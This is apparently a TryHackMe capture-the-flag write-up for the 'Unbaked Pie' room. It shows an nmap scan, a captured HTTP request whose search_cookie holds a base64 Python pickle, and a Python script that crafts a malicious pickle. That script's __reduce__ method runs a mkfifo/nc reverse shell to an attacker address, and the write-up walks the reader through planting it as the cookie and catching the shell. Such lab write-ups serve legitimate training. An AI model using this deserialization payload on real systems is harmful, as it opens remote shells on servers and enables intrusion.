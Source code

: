 ```yaml
---
title: "Unbaked Pie"
categories:
 - tryhackme
tags:
 - linux
 - medium
 - writeups
author_profile: true
published: false
---
```


[Room](https://tryhackme.com/room/unbakedpie)

> nmap

`nmap -p- -v --min-rate 10000 $IP -Pn`

```
Port 	5003 	HTTP 	OPEN
```

> web enumeration

The login and signup doesn't seem to work

When a POST request for search is done, we can interesting cookies there.
```
Host: 10.10.23.146:5003
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.23.146:5003/
Content-Type: application/x-www-form-urlencoded
Content-Length: 99
Origin: http://10.10.23.146:5003
DNT: 1
Connection: keep-alive
Cookie: csrftoken=rumeY1BZpmCT5J03AbFG7p2YG1rfdnQIIz8iNjJ7RWOf5KjK04z2qwJc98IurvFS; search_cookie="gASVCwAAAAAAAACMB2Zqa2FkbGaULg=="
Upgrade-Insecure-Requests: 1
```

`search_cookie` seems like its using python pickle 

Try a RCE with python pickle exploit 

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc $IP 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Run the above script and replace the `search-cookie` value with above, also listen at specified port.
You should be getting a temporary shell.

